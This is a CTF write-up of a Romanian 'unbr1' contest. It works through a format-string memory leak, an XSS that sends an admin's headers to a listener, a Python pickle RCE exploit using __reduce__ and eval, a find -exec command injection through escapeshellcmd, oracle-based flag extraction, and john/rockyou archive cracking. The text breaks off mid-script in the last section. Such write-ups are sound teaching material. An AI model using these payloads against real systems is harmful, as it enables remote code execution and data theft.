





## Challenges
  * [better-cat](#better-cat)
  * [notafuzz](#notafuzz)
  * [manual-review](#manual-review)
  * [rundown](#rundown)
  * [the-code](#the-code)
  * [imagine-that](#imagine-that)
  * [alien-console](#alien-console)
  * [zanger](#zanger)
  * [gogu](#gogu)
  * [russiandoll](#russiandoll)
  * [we-are-in-danger](#we-are-in-danger)
  * [tsunami-researcher](#tsunami-researcher)
  * [lost-message](#lost-message)

## better-cat {#better-cat}

You might need to look for a certain password.

Flag format: ctf{sha256}

Goal: In this challenge you have to obtain the password string or flag from the binary file.

The challenge was created by Bit Sentinel.


As the title hints, the solution involved using the 'strings' program on the given binary:

 
yakuhito@furry-catstation:~/ctf/unbr1/better-cat$ file cat.elf 
cat.elf: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=cfcb7ab0ad0834a3ee237b8c4e6ee136978d4b26, not stripped
yakuhito@furry-catstation:~/ctf/unbr1/better-cat$ strings -7 cat.elf | head -n 24
/lib64/ld-linux-x86-64.so.2
libc.so.6
__isoc99_scanf
__stack_chk_fail
__cxa_finalize
__libc_start_main
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
parola12
Well donH
e, your H
special H
flag is:H
 ctf{a81H
8778ec7aH
9fc19887H
24ae3700H
b42e998eH
b09450eaH
b7f1236eH
yakuhito@furry-catstation:~/ctf/unbr1/better-cat$


The `-7` switch tells the strings program to only print words longer than 7 characters. Also, `| head -n 24` just limits the amount of results that are printed on the screen(in this case, 24). 

I could see parts of the flag, but I didn't want to manually concatenate them. I remembered the executable asked for a password, so I ran it again and used 'parola12', which I also found in the program's strings (the word 'parola' means 'password'):


yakuhito@furry-catstation:~/ctf/unbr1/better-cat$ ./cat.elf 
https://www.youtube.com/watch?v=oHg5SJYRHA0
The password is: parola12
Well done, your special flag is: ctf{a818778ec7a9fc1988724ae3700b42e998eb09450eab7f1236e53bfdcd923878}
yakuhito@furry-catstation:~/ctf/unbr1/better-cat$


**Flag**: ctf{a818778ec7a9fc1988724ae3700b42e998eb09450eab7f1236e53bfdcd923878}

## notafuzz {#notafuzz}

To fuzz or nor?

Flag format: ctf{sha256}

Goal: You have to connect to the service using telnet/netcat and find a way to recover the flag by abusing a common techniques used in the exploitation of binaries.

The challenge was created by Bit Sentinel.


The players were also given an executable named 'chall' and a address that was supposedly running the challenge on a server. The binary simply asked if I had 'control':


yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ ./chall 
Good luck!
Do you have the control?
yes
yes
It does not look like. You have the alt!
Do you have the control?
^C
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$


I tried to overflow the buffer, but the binary wasn't vulnerable. I also tried a format string attack, but that didn't work either. To solve this challenge, I needed to open the program in IDA. The following image contains a part of the reassembled 'main' function:

I only tried the format string attack the first time I was asked for input! Knowing that the third answer will use `printf` with my input as the first argument, it was trivial to leak bytes from the program's memory:


yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ ./chall 
Good luck!
Do you have the control?
yaku
yaku
It does not look like. You have the alt!
Do you have the control?
yaku
yaku
It does not look like. You have the alt!
Do you have the control?
%7$p
0x100000000It does not look like. You have the alt!
Do you have the control?
^C
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$


I used the folowing python script to exploit the format string vulnerability on the remote machine:


from pwn import *

context.log_level = "CRITICAL"

def leakAddr(memOffset):
	r = remote('35.246.180.101', 31425)
	r.recvuntil('Do you have the control?')
	r.sendline('yaku')
	r.recvuntil('Do you have the control?')
	r.sendline('yaku')
	r.recvuntil('Do you have the control?\r\n')
	r.sendline(' | %' + str(memOffset) + '$p | ')
	resp = r.recvuntil('Do you have the control?')
	r.close()
	return resp.decode().split(' | ')[3]

for i in range(1000):
	print(str(i) + " " + leakAddr(i))


I didn't know exactly where the flag was located, so I waited for the script to print some hex values that might decode to valid ASCII characters.


yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ python solve.py
[...]
135 (nil)
136 0x585858587b667463
137 0x5858585836646166
138 0x5858585830343335
139 0x5858585866303831
140 0x5858585863346236
141 0x5858585839346636
142 0x5858585831646164
143 0x5858585861643833
144 0x5858585834646565
145 0x5858585866633734
146 0x5858585839663332
147 0x5858585833363439
148 0x5858585831383435
149 0x5858585835323966
150 0x5858585830663135
151 0x5858585863626435
152 0x5858585830373036
153 0x585858587d
154 (nil)
[...]
yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$


Offsets 136-153 seemed promising, so I decoded them and got a string that resembled the flag:


yakuhito@furry-catstation:~/ctf/unbr1/notafuzz$ python
Python 3.6.9 (default, Oct  8 2020, 12:12:24) 
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> enc_flag = bytearray.fromhex("585858587d5858585830373036585858586362643558585858306631355858585835323966585858583138343558585858333634395858585839663332585858586663373458585858346465655858585861643833585858583164616458585858393466365858585863346236585858586630383158585858303433355858585836646166585858587b667463")
>>> flag = enc_flag[::-1].decode()
>>> print(flag)
ctf{XXXXfad6XXXX5340XXXX180fXXXX6b4cXXXX6f49XXXXdad1XXXX38daXXXXeed4XXXX47cfXXXX23f9XXXX9463XXXX5481XXXXf925XXXX51f0XXXX5dbcXXXX6070XXXX}XXXX
>>> print(flag.replace("X", ""))
ctf{fad65340180f6b4c6f49dad138daeed447cf23f994635481f92551f05dbc6070}
>>> 


I'm still not sure what the role of those 'X' characters is, but removing them from the string produced the valid flag.

**Flag:** ctf{fad65340180f6b4c6f49dad138daeed447cf23f994635481f92551f05dbc6070}

## manual-review {#manual-review}


For any coffe machine issue please open a ticket at the IT support department.

Flag format: ctf{sha256}

Goal: The web application contains a vulnerability which allows an attacker to leak sensitive information.

The challenge was created by Bit Sentinel.


A web challenge! As always, it turned out I overcomplicated things. After making an account, I had the option of sending messages to admins:

Everything hinted at an XSS, so I entered `` and clicked the submit button. As expected, the javascript code was executed.

This was the part where I got stuck. I managed to exfiltrate data from the admin's browser, but I couldn't get the flag. The flag, as it turned out, was in the `User-Agent` header. My final payload:





The request from the admin's browser looked like this:

yakuhito@furry-catstation:~/ctf/unbr1/manual-review$ nc -nvlp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 127.0.0.1 53004 received!
GET /yaku HTTP/1.1
Host: 361c4f4977c5.ngrok.io
Upgrade-Insecure-Requests: 1
User-Agent: ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://127.0.0.1:1234/asdadasdasdasdasdasdasdadsasdasdads
Accept-Encoding: gzip, deflate, br
X-Forwarded-Proto: https
X-Forwarded-For: 34.89.215.57

^C
yakuhito@furry-catstation:~/ctf/unbr1/manual-review$


**Flag:** ctf{ff695564fdb6943c73fa76f9ca5cdd51dd3f7510336ffa3845baa34e8d44b436}

## rundown {#rundown}

A rundown, informally known as a pickle or the hotbox, is a situation in the game of baseball that occurs when the baserunner is stranded between two bases, also known as no-man's land, and is in jeopardy of being tagged out." ... if you stopped in the first part of the definition you are one of ours.

Flag format: ctf{sha256} Goal: You have to discover a vulnerability in this simple web application and recover the flag.

The challenge was created by Bit Sentinel.


A great web challenge. Acessing the site with my browser only returned `APIv2 @ 2020 - You think you got methods for this?`, so I tried making a POST request with curl, saving the output to a file, and opening that file with my browser:


yakuhito@furry-catstation:~/ctf/unbr1/rundown$ curl -X POST http://35.246.180.101:30994/ > a.html
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 17003    0 17003    0     0   144k      0 --:--:-- --:--:-- --:--:--  144k
yakuhito@furry-catstation:~/ctf/unbr1/rundown$ python -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...


The new output offered a lot of information. First, the web app was powered by Flask. The server was using python 2.7 and a part of the app.py file was visible in the traceback:


@app.route("/", methods=["POST"])

def newpost():
  picklestr = base64.urlsafe_b64decode(request.data)

  if " " in picklestr:
    return "The ' ' is blacklisted!"

  postObj = cPickle.loads(picklestr)
  return ""

if __name__ == "__main__":
    app.run(host = "0.0.0.0", debug=True)


[Using pickle on user input is as secure as using eval](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). However, I was not allowed to use spaces in the payload, so the task was a bit harder. The solve script below prints the flag, but I have to admit it was inspired [from this writeup](https://github.com/saw-your-packet/ctfs/blob/master/Unbreakable%20Romania%20Online%20%231/Write-ups.md#rundown):


import _pickle as cPickle
import base64
import os
import string
import requests
import time

class Exploit(object):
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))

def sendPayload(p):
	newp = base64.urlsafe_b64encode(p).decode()
	headers = {'Content-Type': 'application/yakoo'}
	r = requests.post("http://35.246.180.101:30994/",headers=headers,data=newp)
	return r.text

payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] + "}")


My solution involved exfiltrating the flag character by character by raising an eception if the characters don't match - like a blind SQL injection, but with pickle & python. To get an idea of how overcomplicated it was, here's my original `Exploit` class:


class Exploit(object):
	def throw_err(e):
		raise Exception(e)

	def __reduce__(self):
		return (eval, ('(0)if(open("flag","r").read()[77]=="z")else(1/0)', ))


**Flag:** ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}

## the-code {#the-code}

Look, the code is there. Enjoy.

Flag format: ctf{sha256}

Goal: You receive the source code of a small web application and you have to find the vulnerability to exfiltrate the flag.

The challenge was created by Bit Sentinel.


After the competition ended, I found out the reason the number of solves was so high for this challenge: the flag could be obtained by simply acessing `/flag`. Since I solved this challenge the intended way, let's suppose you don't know about the file mentioned above. Here's the source code of the `index.php` file:


 <?php

if (!isset($_GET['start'])){
    show_source(__FILE__);
    exit;
} 

if(stristr($_GET['arg'], 'php')){
    echo "nope!";
    exit;
}

if(stristr($_GET['arg'], '>')){
    echo "Not needed!";
    exit;
}

if(stristr($_GET['arg'], '$')){
    echo "Not needed!";
    exit;
}

if(stristr($_GET['arg'], '&')){
    echo "Not needed!";
    exit;
}

if(stristr($_GET['arg'], ':')){
    echo "Not needed!";
    exit;
}

echo strtoupper(base64_encode(shell_exec("find /tmp -iname ".escapeshellcmd($_GET['arg']))));

// Do not even think to add files.


The vulnerability was pretty easy to spot: the script uses `escapeshellcmd` whereas it should be using `escapeshellarg`. While I couldn't directly execute other programs, I could pass other switches and arguments to `find`. Having used this program a lot, I already knew it had an `-exec` switch. Here's the manpage in case you don't know what it does already:


       -exec command ;
              Execute command; true if 0 status is returned.  All following arguments to find are taken to be arguments to the command until an argument consisting of `;' is encountered.  The string
              `{}' is replaced by the current file name being processed everywhere it occurs in the arguments to the command, not just in arguments where it is alone, as in some  versions  of  find.
              Both  of these constructions might need to be escaped (with a `\') or quoted to protect them from expansion by the shell.  See the EXAMPLES section for examples of the use of the -exec
              option.  The specified command is run once for each matched file.  The command is executed in the starting directory.   There are unavoidable security problems surrounding use  of  the
              -exec action; you should use the -execdir option instead.


Basically, passing `*%20-exec%20cat%20flag%20;` (urldecoded: `* -exec cat flag ;`) to `arg` will output the flag a few times:


yakuhito@furry-catstation:~/ctf/unbr1/the-code$ curl "http://35.242.239.180:30233/?start=1&arg=*%20-exec%20cat%20flag%20;"
Y3RME2FHZJE1Y2FJZMJHNJE1ZDUXMZCYMZG2OTA5YZQ3NZFMMDGZNJI4NGFKMWE1MZLIY2VMNDKYMDFJNJYWNJMXZWR9Y3RME2FHZJE1Y2FJZMJHNJE1ZDUXMZCYMZG2OTA5YZQ3NZFMMDGZNJI4NGFKMWE1MZLIY2VMNDKYMDFJNJYWNJMXZWR9


The problem, however, was that the output is encoded to base64 and then passed to `strtoupper`. I made the following script that attempts to decode the uppercase base64 string:


import base64
import sys
import string

def lower(enc_st, i):
	return enc_st[:i] + enc_st[i].lower() + enc_st[i + 1:]

def score(s, posmax):
	score = 0
	alphabet = string.printable[:-2].encode()
	dec = base64.b64decode(s)
	if dec[0] not in alphabet:
		return -1
	while score < (posmax * 6 // 8 + 6) and dec[score] in alphabet:
		score += 1
	return  score - 1

def tryToLower(enc_st, pos):
	encs = []
	scores = []
	for i in range(256):
		enc = enc_st
		b = bin(i)[2:]
		if len(b) < 8:
			b = "0" * (8 - len(b)) + b
		for offset, shouldLower in enumerate(b):
			if shouldLower == "1":
				enc = lower(enc, pos + offset)
		encs.append(enc)
		scores.append(score(enc, pos))
	max = -1
	posmax = -1
	for i, s in enumerate(scores):
		if s > max:
			max = s
			posmax = i
	arr = []
	verif = []
	for i, s in enumerate(scores):
		if s == max and encs[i] not in verif:
			verif.append(encs[i])
			arr.append(i)
	if len(arr) == 1:
		return encs[posmax]
	else:
		print("CHOICE TIME")
		for i in arr:
			print(str(i).encode() + b'. ' + base64.b64decode(encs[i]))
		x = input()
		return encs[int(x)]

enc = sys.argv[1]
for i in range(0, len(enc), 8):
	enc = tryToLower(enc, i)

print(base64.b64decode(enc))


Each time the program asks you to choose between some strings, choose the one that starts with the longest valid string (keep in mind that the only allowed characters between `ctf{` and `}` are `0-9a-f`)

**Flag:** ctf{aaf15cacfba615d51372386909c4771f0836284ad1a539bcef49201c660631ed}

## imagine-that {#imagine-that}


Imagine that we are using socat for this one.

Flag format: ctf{sha256}

Goal: You have to connect to the service using telnet/netcat and discover what is leaking.

The challenge was created by Bit Sentinel.


`socat` - the CTF player's worst nightmare. There was no attached file, so I connected to the specified host with `nc` and played with the input until the program crashed:


yakuhito@furry-catstation:~/ctf/unbr1/imagine-that$ nc 35.242.239.180 30622
Enter starting point: 1
1
Enter starting point: a
a
Traceback (most recent call last):
  File "server.py", line 9, in <module>
    if (int(end) - int(start) > 10):
ValueError: invalid literal for int() with base 10: 'a'
^C
yakuhito@furry-catstation:~/ctf/unbr1/imagine-that$ 


The error suggested that the program was asking for a range. Entering `1` and `100` would print `You can not read more then 10.`, so I entered `1` and `10` and got the following output (non-ASCII characters replaced with X for convenience):


yakuhito@furry-catstation:~/ctf/unbr1/imagine-that$ nc 35.242.239.180 30622
Enter starting point: 1
1
Enter starting point: 10
10
XPNG
X

Enter the password: 


The output looked like a png header, so I made the assumption that the program prints the bytes of an image file at offsetd `start..end`, where `start` and `end` represent the numbers entered by the user. Before showing you the script, there's 2 things you need to know abou socat:
* in this case, it appended '\x89' before the bytes in the file
* it tranforms '\n' to '\r\n'

The '\x89' byte is, however, the start of the PNG file signature, so my script had to add it automatically at the start of the file:


from pwn import *

context.log_level = "CRITICAL"

host, port = ("34.89.159.150", 32353)

def get_bytes(start):
	end = start + 1
	r = remote(host,port)
	r.recvuntil(": ")
	r.sendline(str(start).encode())
	r.recvuntil(": ")
	r.sendline(str(end).encode())
	r.recvuntil(str(end).encode() + b'\r\n')
	file = r.recvuntil("Enter")
	r.close()
	file = file[1:-7]
	if len(file) == 1:
		return file
	else:
		if file == b'\r\n':
			return b'\n'
		else:
			print('You can stop the program now')
			return b'\x00'

p = 0
f = open("saveme", "wb")
f.write(b'\x89')
while True:
	new_bytes = get_bytes(p + 1, p + 2)
	f.write(new_bytes)
	f.flush()
	p = p + 1 #len(new_bytes)
	print(new_bytes)

f.close()


After about 5-10 minutes, the program extracted an image that contained a QR code. The QR code decoded to `asdsdgbrtvt4f5678k7v21ecxdzu7ib6453b3i76m65n4bvcx`, which is the password that unlocks the flag:


yakuhito@furry-catstation:~/ctf/unbr1/imagine-that$ nc 35.242.239.180 30622
Enter starting point: 1
1
Enter starting point: 1
1
X
Enter the password: asdsdgbrtvt4f5678k7v21ecxdzu7ib6453b3i76m65n4bvcx
asdsdgbrtvt4f5678k7v21ecxdzu7ib6453b3i76m65n4bvcx
ctf{1e894e796b65e40d46863907eafc9acd96c9591839a98b3d0c248d0aa23aab22}

yakuhito@furry-catstation:~/ctf/unbr1/imagine-that$


**Flag:**ctf{1e894e796b65e40d46863907eafc9acd96c9591839a98b3d0c248d0aa23aab22}

## alien-console {#alien-console}

You might not understand at first.

Flag format: ctf{sha256}

Goal: You have to connect to the service using telnet/netcat and find a way to recover the encoded message.

The challenge was created by Bit Sentinel.


With no binary to download, I used nc to connect to the provided ip and port and started testing the service:


yakuhito@furry-catstation:~/ctf/unbr1/alien-console$ nc 34.89.159.150 32653
Welcome, enter text here and we will secure it: yakuhito
yakuhito
1a150d0e0908150c555c5c0701565d035351065c575c52075c5c555007010404065d56575653500406045503575352545c0106555707520606570653545c56060406510118
^C
yakuhito@furry-catstation:~/ctf/unbr1/alien-console$


The hex string entered is different for 2 different inputs, but it does not change from session to session if the word entered remains the same. It's also 138 characters long, which is exactly the length the flag would have if viewed as hex. These facts led me to test another string:


yakuhito@furry-catstation:~/ctf/unbr1/alien-console$ nc 34.89.159.150 32653
Welcome, enter text here and we will secure it: ctf{
ctf{
0000000005050507545d5d0600575c025250075d565d53065d5d545106000505075c57565752510507055402565253555d0007545606530707560752555d57070507500019

yakuhito@furry-catstation:~/ctf/unbr1/alien-console$ 


The first 8 bytes were 0, which meant that the program was somehow comparing the string entered with the actual flag. The operation could be a simple substraction, a XOR, or a very complicated algorithm, but the important thing was that the first `2*n` nibbles would be equal to '0' only if the flag starts with the first `n` characters of the input. With that information in mind, I wrote the following program to get the flag character by character:


from pwn import *

context.log_level = "critical"

def tryFlagPart(flag_part):
	r = remote('34.89.159.150', 32653)
	r.recvuntil(": ")
	r.sendline(flag_part)
	r.recvuntil(flag_part + "\r\n")
	resp = r.recvuntil("\r\n")[:-2]
	r.close()
	return resp.decode().startswith('0' * 2 * len(flag_part))

alphabet = "0123456789abcdef}"
flag = "ctf{"

while flag[-1] != "}":
	for c in alphabet:
		if tryFlagPart(flag + c):
			flag += c
			print(flag)
			break


**Flag:** ctf{aaac099bd38f64c9297b9905bdaac832365aca0f26719dc02b7cc2c6193cac4d}

## zanger {#zanger}


One communications protocol over certain ports to rule them all.

Flag format: ctf{sha256}

Goal: In this challenge you receive a capture dump and your goal is to find the attacker techniques used to leak the flag.

The challenge was created by Bit Sentinel.


The given pcap contained a lot of UDP packets. However, there were only 138 TCP packets, which was precisely the number of nibbles required to write a flag in hexadecimal. The solution involved treating each destination port as a nibble. Thankfully, `tshark` could extract all the port numbers without much effort on my part:


yakuhito@furry-catstation:~/ctf/unbr1/zanger$ tshark -r flag.pcap -Y "tcp" -e tcp.dstport -Tfields > a
yakuhito@furry-catstation:~/ctf/unbr1/zanger$ python solve.py 
ctf{2f0e53fae2572c358b82bdddf6d02b4a5315cc453d2d9a1df7914bdffe6e61aa{
yakuhito@furry-catstation:~/ctf/unbr1/zanger$


arr = open("a", "r").read().split("\n")[:-1]
arr = [int(i) for i in arr]

flag = ""
i = 0
while i < len(arr):
	if arr[i + 1] == 1337:
		flag += chr(arr[i] * 16 + 0xb)
	else:
		flag += chr(arr[i] * 16 + arr[i + 1])
	i += 2

print(flag)


**Flag:** ctf{2f0e53fae2572c358b82bdddf6d02b4a5315cc453d2d9a1df7914bdffe6e61aa}

## gogu {#gogu}

For sure obfuscated values are secure.

Flag format: ctf{sha256}

Goal: In this challenge you have to bypass various anti-debugging and anti-reverse techniques in order to recover the flag.

The challenge was created by Bit Sentinel.


The atached file, `gogu.exe`, was an ELF 64-bit excutable. `strings` output suggested the binary was a compiled Go program. It goes without saying that the binary was stripped and trying to reverse it using IDA was impossible (for me).


yakuhito@furry-catstation:~/ctf/unbr1/gogu$ ./gogu.exe 
Welcome to gogu!
Good luck!
a961f71e0f287ac52a25aa93be854377
yakuhito@furry-catstation:~/ctf/unbr1/gogu$


The last hex string looked like a hash, so I thought it was somehow derivered from the flag. I tried to dump the memory of the program before/after the 'hash' was printed and then search it using `strings` and `grep`:


yakuhito@furry-catstation:~/ctf/unbr1/gogu$ gdb ./gogu.exe
Reading symbols from ./gogu.exe...(no debugging symbols found)...done.
gdb-peda$ catch syscall write
Catchpoint 1 (syscall 'write' [1])
gdb-peda$ r
[...]
gdb-peda$ c
[...]
gdb-peda$ c
[...]
gdb-peda$ c
[...]
gdb-peda$ c
[...]
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00484000         r-xp	/home/yakuhito/ctf/unbr1/gogu/gogu.exe
0x00484000         0x00517000         r--p	/home/yakuhito/ctf/unbr1/gogu/gogu.exe
0x00517000         0x0052b000         rw-p	/home/yakuhito/ctf/unbr1/gogu/gogu.exe
0x0052b000         0x0054a000         rw-p	[heap]
0x000000c000000000 0x000000c000001000 rw-p	mapped
0x000000c41fff8000 0x000000c420100000 rw-p	mapped
0x00007ffff7f5a000 0x00007ffff7ffa000 rw-p	mapped
0x00007ffff7ffa000 0x00007ffff7ffd000 r--p	[vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 r-xp	[vsyscall]
gdb-peda$ dump memory mem.dump 0x000000c41fff8000 0x000000c420100000
gdb-peda$ quit
yakuhito@furry-catstation:~/ctf/unbr1/gogu$ strings mem.dump | grep ctf{
ctf{1fe6954870babd55ba6e5dfa57d4ed11aabb70533397b985c890749cbfc7e306}
ctf{1fe6954870babd55ba6e5dfa57d4ed11aabb70533397b985c890749cbfc7e306}

In case you are wondering: No, I do not know how to actually reverse a Go binary.

**Flag:**ctf{1fe6954870babd55ba6e5dfa57d4ed11aabb70533397b985c890749cbfc7e306}

## russiandoll

Can you unfold the secrets lying within?

Flag format: ctf{sha256}

Goal: You have to understand what type of file is attached to this challenge, restore the original files and try to gain access to the flag.

The challenge was created by Bit Sentinel.


The given file had no extension, so I used the `file` extension to determine its type:

yakuhito@furry-catstation:~/ctf/unbr1/russiandoll$ file jibeqnocfjjuijypians 
jibeqnocfjjuijypians: gzip compressed data, was "ognhhfcfspjokexhjwoo", last modified: Mon Oct 12 09:33:12 2020, from Unix
yakuhito@furry-catstation:~/ctf/unbr1/russiandoll$


For this particular challenge, there's no point of walking you step by step through my solving process, so here's a summary:
   * Unzipping a file resulted in another archive, eventually leading to the flag. Presumably, the number of steps is too big for the challenge to be completed manually.
   * There were 3 different type of archives
   * `.gz` archives could simply be extracted by using gunzip (no password required)
   * `.zip` archives required a password to be unzipped. The password was different every time, but it was included in `john`'s default dictionary.
   * `.7z` archives also required a password to be extracted. This time, however, the password wasn't included in the default dictionary, so I had to use `rockyou.txt`.

That being said, here's my solve script:

import os
import subprocess

os.system("cp jibeqnocfjjuijypians.original archive")

def run_cmd(cmd):
	arr = cmd.split(" ")
	return subprocess.run(arr, stdout=subprocess.PIPE).stdout.decode()

def gunzip():
	os.system("mv archive archive.gz")
	os.system("gunzip archive.gz")

def zip():
	os.system("mv archive archive.zip")
	os.system("/home/yakuhito/ctf/dawgctf2020/JohnTheRipper/run/zip2john archive.zip > crackme")
	os.system("john crackme > /dev/null")
	psw = run_cmd("john crackme --show")
	psw = psw.split(":")[1]
	os.system("unzip -P '" + psw + "' archive.zip")
	os.system("rm archive.zip")
	os.system("mv archives/* archive")
	os.system("rm -r archives")

def sevenz():
	os.system("mv archive archive.7z")
	os.system("/pentest/password-recovery/johntheripper/7z2john.pl archive.7z > crackme")
	os.system("john crackme --wordlist=/pentest/rockyou.txt")
	psw = run_cmd("john crackme --show")
	psw = psw.split(":")[1].split("\n")[0]
	os.system("7z e archive.7z -P'" + psw + "'")
	files = run_cmd("ls -l")
	files = [_.split(" ")[-1] for _ in files.split("\n")[1:-1]]
	file = ""
	for f in files:
		if f not in ['archive.7z', 'crackme', 'jibeqnocfjjuijypians.original', 'solve.py', '']:
			file = f
			break
	os.system("rm archive.7z")
	os.system("mv " + f + " archive")

def round():
	cont = True
	f = run_cmd("file archive")
	if 'gzip' in f:
